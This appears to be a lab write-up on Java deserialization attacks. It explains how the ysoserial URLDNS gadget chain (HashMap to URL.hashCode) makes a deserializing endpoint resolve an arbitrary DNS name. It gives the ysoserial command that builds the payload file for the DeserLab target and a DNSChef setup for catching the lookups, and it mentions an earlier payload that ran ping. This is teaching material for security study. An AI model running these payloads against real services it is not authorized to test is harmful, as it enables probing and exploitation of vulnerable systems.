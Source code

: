 > The server received the connection and ping was executed


### Analysis of URLDNS Payload
*URLDNS* is a payload from Ysoserial. It does not result in code execution

- Instead, it makes the deserializing endpoint resolve an arbritary DNS name.
- It has low impact, but on the other hand it uses Java built-in features, so its likely to work almost in every case.

```
https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java
```

We can observe a gadget chain of 4 objects

Gadget Chain:
```java
HashMap.readObject()
  HashMap.putVal()
    HashMap.hash()
      URL.hashCode()
```

*HashMap.readObject()** causes Java to instantiate the deserialized object upon successfull deserialization. The hashmap contains a hashed URL object, which due to java built-in mechanisms, will be arbritraty resolved.

- Its crafted in the public method getObject 
- HashMap is a Java data type that stored data in key-value pairs, its often used in deserialization exploits

First, **SilentURLStreamHandler** is used in order not to resolve the URL upon creation of the serialized object. The **url** variable is the user-supplied url to be resolved.

- line 55, a new HashMap is defined
- then, a data type java.net.URL is assigned to the Hashmap, to key **u**
- next, the hashCode of the URL is calculated. Upon, deserialization, the URL in which the hashCode was calculated will be resolved resulting in arbitrary DNS resolution.

### Arbitrary DNS Resolution Exploit
The payload is generated to the p.bin file, which was previously used to execute ping
```java
java -jar ysoserial-master-SNAPSHOT.jar URLDNS http://somethingnonexistent.com > DeserLab/DeserLab-v1.0/p.bin
```

> If u have Burp Suite Pro, u can use the Collaborator Client in order to generate and catch DNS requests

DNSChief will be used as a simple DNS proxy. You can clone it from its GitHub repository:
```
https://github.com/iphelix/dnschef
```

Add to the /etc/resolv.conf
```bash
nameserver 127.0.0.1
```
